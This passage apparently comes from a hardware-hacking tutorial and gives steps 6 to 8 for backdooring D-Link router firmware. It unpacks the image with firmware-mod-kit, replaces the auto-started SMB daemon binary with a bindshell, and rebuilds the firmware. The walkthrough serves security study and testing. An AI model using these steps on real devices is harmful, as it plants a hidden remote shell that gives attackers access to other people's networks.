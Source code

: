 6. Clone and install firmware-mod-kit to unpack the firmware.
```bash
git clone https://github.com/rampageX/firmware-mod-kit
cd firmware-mod-kit
./extract-firmware.sh Dlink_firmware.bin
```

7. For the attack to be successful, the firmware should replace an existing binary that runs automatically, guaranteeing that any normal use of the device will trigger the backdoor. During the dynamic analysis phase, we indeed identified a binary like that: an SMB service running at port 445. You can find the smbd binary in the /userfs/bin/smbd directory. Let’s replace it with the bindshell.

```bash
cp bindshell /userfs/bin/smbd
```

8. After replacing the binary, reconstruct the firmware using the build firmware script
```bash
./build-firmware.sh
```
